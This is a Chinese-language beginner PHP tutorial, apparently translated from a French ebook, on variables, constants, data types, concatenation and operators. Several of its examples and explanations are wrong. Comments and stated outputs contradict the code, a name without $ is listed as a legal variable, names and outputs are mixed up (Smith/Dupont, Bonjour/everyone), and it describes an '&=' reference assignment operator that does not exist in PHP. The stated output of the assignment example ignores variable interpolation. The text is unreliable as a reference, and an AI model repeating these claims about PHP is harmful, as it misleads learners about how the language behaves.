想象你是一名魔术师，拥有一个魔术盒子。这个盒子可以装各种不同的东西。你可以把兔子、硬币、鸽子等放进去。随时可以改变你放在帽子里的东西。这就像 PHP 中的变量，你可以存储不同的值，并根据需要更改它们。


现在想象你有一个装满最宝贵珍宝的宝箱。这个宝箱坚固且不可摧毁，无论周围发生什么，里面始终包含同样的宝贵珍宝。这就像 PHP 中的常量，你定义一个永远不会 **改变** 的值。

### 在 PHP 中定义变量和常量

在 PHP 中，变量是一个带有名称的存储空间，可以在脚本执行过程中包含可修改的值。它由名称后跟等号（=）和赋值的值定义。例如：

```
<?php
$variable_name = "value";
?>
```

另一方面，PHP 常量是一个命名标识符，表示在脚本执行期间无法修改的值。它使用 define() 函数定义，可以在脚本的任何位置使用。例如：

```
<?php
define("CONSTANT_NAME", "constant_value");
?>
```

### 在 PHP 编程中正确使用变量和常量的重要性

在 PHP 编程中，正确使用变量和常量至关重要，原因有以下几点：

**代码清晰度：** 通过使用有意义的变量和常量名称，代码变得更易读，其他开发人员也更容易理解。

**易于维护：** 通过以一致的方式定义变量和常量，未来修改和维护代码会更容易。

**避免错误：** 对于不得修改的值使用常量，可通过防止意外修改来减少代码中出错的风险。

简而言之，了解变量和常量之间的区别以及适当使用它们的重要性，对于开发高效且可靠的 PHP 应用程序至关重要。

### 声明和使用变量

变量在 PHP 编程中起着关键作用，可以在脚本执行过程中存储和操作数据。在本节中，我们将探讨声明变量的语法、如何为其赋值以及如何在 PHP 脚本中使用它们。

### 在 PHP 中声明变量的语法

在 PHP 中，变量使用美元符号（$）后跟变量名来声明。需要注意的是，变量名必须以字母或下划线开头，之后可以包含字母、数字和下划线。

在 PHP 中，变量通常使用以下语法声明：

```
<?php
VariableName = VariableValue;
?>
```

- **VariableName 是**您要声明的变量的名称。它必须以 $ 符号开头，后跟遵循特定语法规则的名称（以字母或下划线开头，不包含空格或除下划线外的特殊字符等）。
- = 是 PHP 中的赋值运算符。它用于为变量赋值。
- **VariableValue** 是您要赋给变量的值。该值可以是各种数据类型，例如字符串、整数、浮点数、布尔值、数组等。

下面是 PHP 中变量声明的一些示例：

```
<?php
$name = "John";
$age = 30;
$account_balance = 1000.50;
?>
```

在此示例中，我们声明了一个变量 **$name** 并为其赋值 "John"，这是一个字符串。现在，该变量可以在我们的脚本中用于存储和操作名称 "John"。

在这行代码 $age = 30; 中，我们声明了一个名为 $age 的变量并为其赋值 30。这意味着变量 $age 包含整数 30。


在这行代码 $account_balance = 1000.50; 中，声明了一个名为 $account_balance 的第三个变量，并将其赋值为 **1000.50**。这意味着变量 **$account_balance** 包含浮点数 1000.50。

## 声明新变量时应遵循的规则

- PHP 中的每个变量都必须以 $ 符号开头，后跟变量名。
- 变量名必须以字母或下划线 "_" 开头，不能以数字开头。
- 变量名只能包含字母、数字和下划线 "_"，不能包含特殊字符。
- 变量名不能包含空格。
- 需要注意的是，PHP 中的变量名区分大小写。这意味着使用大写或小写会创建不同的变量。例如，变量 $NAME、$Name 和 $name 被视为不同的变量。

这些规则确保 PHP 中变量的正确且一致的声明，有助于提高源代码的可读性和可管理性。下表列出了合法和非法变量名的一些示例。

| 合法变量名 | 非法变量名 |
|---|---|
| $myvariable | $3myvariable |
| $_myvariable | $*variable |
| $myvariable1 | $myvariable+ |
| MASTER2 | |
| $_32monlastname | |

## 按值赋值与按引用赋值

在 PHP 编程中，为变量赋值时，理解按值赋值和按引用赋值的概念非常重要。这两种赋值方式决定了 PHP 脚本中变量之间数据的操作和共享方式。

### 按值赋值：

当变量按值赋值时，会创建源变量值的副本并将其赋给目标变量。这意味着两个变量拥有存储在不同内存位置的独立值。对目标变量所做的任何更改都不会影响源变量，反之亦然。这允许变量之间独立地操作数据。

### 示例：

```php
<?php
$var1 = "Hello";
$var2 = $var1; // Assignment by value
echo $var2; // Display "Hello"
echo "<br>";
$var1 = "Hello everybody!";
echo $var1; // Display "Hello"
echo "<br>";
echo $var2; // Display "Hello"
echo "<br>";
?>
```

### 结果：

Hello
Hello everybody!
Hello

### 按引用赋值：

相反，当使用 "&" 符号按引用赋值时，两个变量共享指向包含该值的内存位置的同一引用。这意味着对其中一个变量所做的任何修改也会影响另一个变量，因为它们指向内存中的同一值。这允许变量之间直接共享和操作数据，在某些用例中非常有用。

### 示例：

```php
<?php
$var1 = "Hello";
$var2 = &$var1; // Assignment by reference
echo $var2; // Display "Hello"
echo "<br>";
$var1 = "Hello";
echo $var2; // Display "Hello"
?>
```

在此示例中，$var2 被按引用赋值给 $var1，这意味着两个变量都指向内存中的同一值。因此，当 $var1 的值被修改时，$var2 的值也会被修改，因为它们共享相同的引用。

### 结果 :



## 在 PHP 脚本中使用变量

在 PHP 脚本中，只需引用变量名即可使用变量。它们可用于显示数据、执行计算或任何其他需要操作数据的操作。以下是变量在 PHP 脚本中的一些用法示例：

### 示例 1：

```php
<?php $name = "Bob";
echo $name;
?>
```

$name = "Bob";：此行声明一个变量 $name 并将其赋值为 "Bob"。变量 $name 现在包含字符串 "Bob"。

echo $name;：此行显示变量 $name 的内容。echo 函数用于在 PHP 中显示文本或变量。在此示例中，它显示变量 $name 的值，即 "Bob"。

### 结果



### 示例 2：

```php
<?php
$firstname = "Alice";
$age = 25;
echo "Hello, my name is $firstname and I am $age years old.";
?>
```

在此示例中，变量 $firstname 和 $age 用于存储某人的信息，然后在句子中显示。

### 结果



### 示例 3：

```php
<?php
$number1 = 10; $number2 = 5; $sum = $number1 + $number2;
echo "The sum of $number1 and $number2 is equal to $sum.";
?>
```

在此示例中，变量 $number1 和 $number2 用于存储数字，然后用于计算求和，结果存储在变量 $sum 中，最后显示。

### 结果:



## PHP 中的显示与连接

在 PHP 中，可以通过多种方式显示文本和变量，例如使用 **echo 函数** 或将字符串括在双引号 (`""`) 或单引号 (`''`) 中。

PHP 中的连接是指将多个字符串连接成一个字符串。当您想要将变量、常量和文本字符串组合成完整消息或更复杂的表达式时，这非常有用。

### 双引号和单引号的用法示例：

```php
<?php
$firstname = "Alice";
echo "Hello, $firstname!"; // Displays "Hello, Alice!"
echo "<br>";
echo 'Hello, $firstname!'; // Display "Hello, $firstname!"
?>
```

### 结果:



在此示例中，第一个 **echo** 语句使用双引号显示变量 $firstname 的值，而第二个 **echo** 语句使用单引号，显示文本 "$firstname" 而不解释变量。

### 连接运算符（点号 .）的用法：

在 PHP 中，连接运算符由点号 (.) 表示，用于连接字符串。

### 示例 1：

```php
<?php
$firstname = "Alice";
$name = "Smith";
$message = "Hello, " . $firstname . " " . $name . "!";
echo $message;
?>
```

在此示例中，变量 $firstname 和 $lastname 分别包含值 "Alice" 和 "Dupont"。连接运算符 (.) 用于将这些变量与文本字符串组合起来，形成完整消息 "Hello, Alice Smith!"。

双引号 ( " " ) 由一个空格分隔，并插入在两个变量 $firstname 和 $lastname 之间，在它们的值之间创建一个空格（在 Alice 和 Dupont 之间）。

### 结果:



### 示例 2

```php
<?php
$age = 30;
$message = "She's turning " .$age. " next week, but she doesn't look a day over 25 ";
echo $message;
?>
```

在此示例中，变量 $age 包含数值 30。连接运算符 (.) 用于将此变量与文本字符串组合起来，形成完整消息 "I'm 30 years old"。

### 结果:



## 带缩写的字符串中的撇号

让我们通过使用撇号而不是双引号来修改前面的示例：

```php
<?php
$age = 30;
$message = 'She's turning " .$age. " next week, but she doesn't look a day over 25 ';
echo $message;
?>
```

运行此代码时，您会因为定义变量 $message 的那一行而遇到错误。



错误的发生是因为字符串“She’s”和“doesn’t”中使用了撇号。在 PHP 中，当字符串用单引号 ('') 引起来时，字符串内的撇号必须用反斜杠 ( \ ) 转义，以避免与字符串结束符混淆。

要解决此错误，可以使用反斜杠 ( \ ) 转义撇号：

```php
<?php
$age = 30;
$message = 'She\'s turning ". $age ." next week, but she doesn\'t look a day over 25 ';
echo $message;
?>
```

## 使用 .= 运算符：

在 PHP 中，可以使用 .= 运算符将字符串连接到现有变量。

```php
<?php
$message = "Hello ";
```


```php
$message .= "everyone!";
echo $message;
?>
```

在这个示例中，字符串 "Everybody!" 与变量 $message 进行拼接，该变量已包含字符串 "Hello"，从而形成完整的消息 "Hello everybody!"。

换句话说，代码行 $message .= "everyone!"; 使用连接运算符 (.=) 将字符串 "everyone!" 添加到变量 $message 的末尾。这意味着字符串 'everybody!' 会被追加到 $message 变量中现有字符串的末尾。

请注意，字符串 "Bonjour" 末尾包含一个空格，从而在两个文本字符串 "Bonjour" 和 "Bonjour tout le monde!" 之间插入空格。



在 PHP 中，拼接是一种高效的组合字符串和变量的方式，用于在 PHP 脚本中创建动态消息和复杂表达式。
通过使用这些不同的显示和拼接方法，您可以在 PHP 脚本中高效地操作文本和变量。

## 在 PHP 中使用常量

PHP 常量是脚本执行期间表示不可变值的标识符（名称）。一旦定义，常量在脚本执行期间不能被修改或重新赋值。

### 在 PHP 中定义常量

在 PHP 中，定义常量有两种方法：使用函数 define() 或 const 指令。定义常量的语法如下：



### 示例：

```php
<?php
define('VAT', 0.20);
const AVERAGE_GRADE = 10;
?>
```

第一个常量使用 **define()** 函数定义，名为 **VAT**。其值设置为 0.20，表示 20% 的 **VAT** 税率。该常量在全局声明，定义后可在整个脚本中使用。

第二个常量使用 **const** 指令定义，名为 **AVERAGE_GRADE**。其值设置为 10，表示平均分。该常量也在全局声明，定义后可在整个脚本中使用。

### 使用常量的优势

与变量相比，常量具有以下几个优势：

- **不可变**：常量在脚本执行期间保持其值，保证一个恒定且可预测的值。
- **易于读取**：常量通常具有描述性名称，使代码更易于理解。
- **可重用性**：常量可以在代码的多个位置使用，而无需重复值。
- **安全性**：常量在脚本执行期间不能被意外修改，确保代码的一致性和可靠性。

### 命名和使用常量的最佳实践

定义和使用常量时，建议遵循以下某些最佳实践：

- 为常量使用描述性的大写名称（例如 VAT, MAX_SIZE）。
- 避免在常量名称中使用特殊字符或空格。
- 在脚本开头定义常量，以便更好地读取。

### PHP 中预定义常量的示例

在 PHP 中，有一些预定义常量可用于您的脚本：

- PHP_VERSION：此预定义常量包含服务器上安装的当前 PHP 版本。
- PHP_OS：此预定义常量包含运行 PHP 服务器的操作系统名称。
- PHP_INT_MAX：此预定义常量包含当前 PHP 平台上整数可以具有的最大值。
- __FILE__：此预定义魔术常量包含其所在文件的绝对路径。
- __LINE__：此预定义魔术常量包含其所在文件中的当前行号。

```php
echo PHP_VERSION ."<br>"; // Display current PHP version
echo PHP_OS ."<br>"; // Display operating system name
echo PHP_INT_MAX ."<br>"; // Display the maximum value of an integer on a given platform
echo __FILE__ ."<br>"; // Display the absolute path of the file
echo __LINE__ ."<br>"; // Display current line number
?>
```

执行此代码将得到类似于以下输出的结果，该输出特定于我们机器的数据。



- 8.1.17：是我们电脑上安装的 PHP 版本
- Darwin：是我们机器上的 Mac 操作系统
- 9223372036854775807：是 64 位平台上的最大数字
- /Application/XAMPP/xamppfiles/htdocs/ebookphp/index.php：是当前正在运行的文件的绝对路径
- 21：是与 echo __LINE__ 指令对应的行号

### 变量与常量的比较

变量和常量是 PHP 编程的基本元素，但在行为和用途上有所不同：

变量在脚本执行期间可以被修改和重新赋值，而常量保持其不可变值。

变量使用 $ 符号声明，而常量使用 define() 或 const 声明。

常量通常用于在整个脚本中保持不变的值，例如税率或数学常数，而变量用于在脚本执行期间可能更改的值。

## PHP 中的数据类型

在 PHP 中，数据可以是不同的类型，每种类型都有其自身的特征和用途。PHP 中的数据类型可分为两大类：原始数据类型和复杂数据类型。为了本章的目的，了解 PHP 支持的不同原始数据类型非常重要。这些数据类型用于在变量中存储不同的值。

### PHP 中的原始数据类型

PHP 中的原始数据类型是表示简单值的基本数据类型。以下是 PHP 中的主要原始数据类型：

- 整数（int）：整数用于表示整数，例如 -1、0、1、2 等。它们可以是正数或负数。
- 浮点数：浮点数用于表示小数，例如 3.14、-0.5、1.618 等等。
- 字符串：这些表示用单引号（' '）或双引号（" "）括起来的字符序列。例如：$name = 'John';。
- 布尔值（bool）：这些表示真值，即 true 或 false。例如：$is_true = true;。
- “null” 类型用于表示值的缺失。这与空字符串 ''、整数 0 或布尔值 false 不同。换句话说，包含 null 的变量不包含任何有用数据或信息。它表明变量为空或尚未定义为有效值。

要获取给定变量的数据类型，可以使用 PHP 原生定义的 gettype() 函数。

### 示例：

```php
<?php
// Declaration and initialization of variables with different values
$age = 30; // An integer
$price = 19.99; // A floating-point number
$name = 'John'; // A character string
$message = "John is 20!"; // Another string
$is_true = true; // A Boolean (true)
$is_false = false; // A Boolean (false)
$salary = null; // No value is assigned to the variable

// Display the data type of each variable
echo gettype($age) . "<br>"; // Display "integer".
echo gettype($price) . "<br>"; // Display "double"
echo gettype($name) . "<br>"; // Display "string"
echo gettype($message) . "<br>"; // Display "string"
echo gettype($is_true) . "<br>"; // Display "boolean"
echo gettype($is_false) . "<br>"; // Display "boolean"
echo gettype($salary) . "<br>"; // Display "NULL".
?>
```

本示例中的代码使用 **gettype()** 函数获取每个变量的数据类型，然后使用 **echo** 带 **<br>** 标签显示每个数据类型，以在 HTML 输出中换行。
最后，代码输出将类似于以下内容：

```text
integer
double
string
string
boolean
boolean
NULL
```

请注意，还有其他变量类型，例如数组和对象，它们被视为复杂类型。我们将在本书的后续部分更详细地探讨这些变量类型。

还需要注意的是，与其他强类型编程语言不同，在其他语言中我们必须显式声明每个变量的类型，而在 PHP 中，变量的类型是根据分配给它的值自动确定的。例如，如果我们声明 $age = 17;，这意味着变量 $age 的类型是整数。

### PHP 运算符

PHP 运算符是用于对变量和值执行操作的特殊符号。它们在

在数据操作和控制 PHP 脚本执行流程中发挥着至关重要的作用。运算符可用于执行数学计算、比较值、向变量赋值、连接字符串等。

在 PHP 中，运算符按其功能分为不同类型：算术运算符、赋值运算符、比较运算符、逻辑运算符以及自增/自减运算符。接下来，我们将探讨每种运算符，解释其用法、语法规则，并提供实际示例来说明其工作原理。理解运算符对于编写高效且功能完善的 PHP 脚本至关重要。

## 算术运算符

算术运算符用于对数值执行数学运算。下表展示了 PHP 中的主要算术运算符。

| 运算符 | 名称 | 示例 |
|---|---|---|
| + | 加法 | $a + $b |
| - | 减法 | $a - $b |
| * | 乘法 | $a * $b |
| / | 除法 | $a / $b |
| % | 取模 | $a % $b |
| ** | 指数运算 | $a ** $b |

### 加法 (+)
加法运算符 (+) 用于将两个或多个数值相加。例如，如果你有两个变量 $a 和 $b，则 $a + $b 将返回这两个变量的和。

### 减法 (-)
减法运算符 (-) 用于将一个数值减去另一个数值。例如，如果你有两个变量 $a 和 $b，则 $a - $b 将返回这两个变量的差。

### 乘法 (*)
乘法运算符 (*) 用于将两个数值相乘。例如，如果你有两个变量 $a 和 $b，则 $a * $b 将返回这两个变量的积。

### 除法 (/)
除法运算符 (/) 用于将一个数值除以另一个数值。例如，如果你有两个变量 $a 和 $b，则 $a / $b 将返回 $a 除以 $b 的商。

### 取模 (%)
取模 (%) 运算符用于获取一个数值除以另一个数值的余数。例如，如果你有两个变量 $a 和 $b，则 $a % $b 将返回 $a 除以 $b 的余数。

### 指数运算 (**)
** 运算符是 PHP 中的指数运算符。它用于将一个值提升到给定的幂。例如，如果你有一个值 $a 并想将其提升到 $b 次幂，可以像这样使用 ** 运算符：$a ** $b。这相当于将 $a 提升到 $b 次幂。例如，如果 $a 是 2，$b 是 3，则 $a ** $b 将返回 8，因为 2 的 3 次幂等于 8。这个运算符在 PHP 脚本中执行涉及幂的计算时非常有用。

这些算术运算符用于数学表达式中，以便在 PHP 脚本中执行数值计算。它们对于在程序中执行各种数学运算至关重要。

## 示例

```php
<?php
// Declaration of variables
$a = 10;
$b = 3;

// Addition
$addition = $a + $b;
echo "Addition : $addition <br>";

// Subtraction
$subtraction = $a - $b;
echo "Subtraction : $subtraction <br>";

// Multiplication
$multiplication = $a * $b;
echo "Multiplication : $multiplication <br>";

// Division
$division = $a / $b;
echo "Division : $division <br>";

// Modulo
$modulo = $a % $b;
echo "Modulo : $modulo <br>";

// Exponentiation
$exponentiation = $a ** $b;
echo "Exponentiation : $exponentiation <br>";
?>
```

## 结果



在此示例中，变量 $a 和 $b 分别设置为 10 和 3。然后使用这些值执行算术运算：

- 将 $a 和 $b 相加得到 13（10 + 3）。
- 用 $a 减去 $b 得到 7（10 - 3）。
- 将 $a 和 $b 相乘得到 30（10 * 3）。
- 用 $a 除以 $b 得到约 3.33333（10 / 3）。
- $a 对 $b 取模得到 1，即 10 除以 3 的欧几里得除法余数。
- 最后，$a 的 $b 次幂得到 1000（10 ** 3）。

## 赋值运算符

赋值运算符用于向变量赋值。下表展示了 PHP 中的主要赋值运算符：

### 简单赋值运算符 (=)
此运算符用于向变量赋值。例如，$a = 10; 将值 10 赋给变量 $a。

### 复合赋值运算符
这些运算符将算术运算与赋值运算相结合。例如，+= 运算符将右侧值加到左侧变量，并将结果赋给左侧变量。因此，$a += 5; 等同于 $a = $a + 5;

### 其他复合赋值运算符
其他复合赋值运算符包括 -=、*=、/=、%=、**=，它们的工作方式类似，分别用于减法、乘法、除法和取模运算。

| 运算符 | 用法 | 含义 |
|---|---|---|
| = | $a = $b | 将 $b 的值赋给变量 $a |
| += | $a += $b | $a = $a + $b |
| -= | $a -= $b | $a = $a - $b |
| *= | $a *= $b | $a = $a * $b |
| /= | $a /= $b | $a = $a / $b |
| %= | $a %= $b | $a = $a % $b |
| **= | $a **= $b | $a = $a ** $b |
| .= | $a .= $b | $a = $a . $b |

## 示例

```php
<?php
// Simple assignment operator
$a = 10; // $a is now equal to 10
echo "\$a after simple assignment operator: $a <br>";

// Combined assignment operators
$b = 5;
$b += 3; //Equals $b = $b + 3 and the new value of $b is 8
echo "$b after applying the += operator: $b <br>";

$c = 8;

$c -= 2; //Equals $c = $c - 2 and the new value of $b is 6
echo "$c after operator -= : $c <br>";

$d = 6;

$d *= 4; //Equals $d = $d * 4 and the new value of $b is 24
echo "$d after applying the *= operator: $d <br>";

$e = 12;

$e /= 3; // Equals $e = $e / 3 and the new value of $b is 4
echo "$e after applying the /= operator: $e <br>";

$f = 10;

$f %= 3; // Equivalent to $f = $f % 3 and the new value of $b is 1
echo "$f after applying operator %= : $f <br>";

?>
```

执行此代码后，将显示变量 $a、$b、$c、$d、$e 和 $f 在应用相应运算符后的新值：

```
$a after simple assignment operator: 10
$b after applying the += operator: 8
$c after operator -= : 6
$d after applying the *= operator: 24
$e after applying the /= operator: 4
$f after applying operator %= : 1
```

### 复合赋值运算符 .=
此运算符用于将一个字符串与另一个现有字符串连接，然后将结果赋给运算符左侧的变量。

例如，如果你有一个包含字符串 "Hello" 的变量 $message，并想向此字符串添加 "world!"，可以像这样使用 .= 运算符：

```php
<?php
$message = "Hello ";
$message .= "world!";
?>
```

执行此代码后，$message 变量将包含字符串 "Hello world!"。

### 引用赋值运算符 (&=)
此运算符用于将一个变量的引用赋给另一个变量。这意味着两个变量都指向内存中的同一个值。

## 示例

```php
<?php
// Reference assignment operator
$message1 = "Hello ";
$message2 = &$message1; // $message2 points to the same value as $message1
$message2 .= "monde !"; // Concatenates "monde !" to $message1

echo "\$message2 after applying the &= and .= operators: $message1 <br>";
echo "\$message1 after &= and .= operators: $message1 <br>";
?>
```

在此示例中，变量 $message1 被声明并初始化为字符串 "Hello"。

通过使用引用赋值运算符 (&=)，将 $message2 变量赋为与 $message1 变量相同的值。

接下来，使用连接运算符 .= 将字符串 "world!" 连接到变量 $message2，这也会修改 $message2 的值。但 $message1 的值也会被修改，因为 $message1 和 $message2 通过引用关联。执行此代码将产生以下结果：

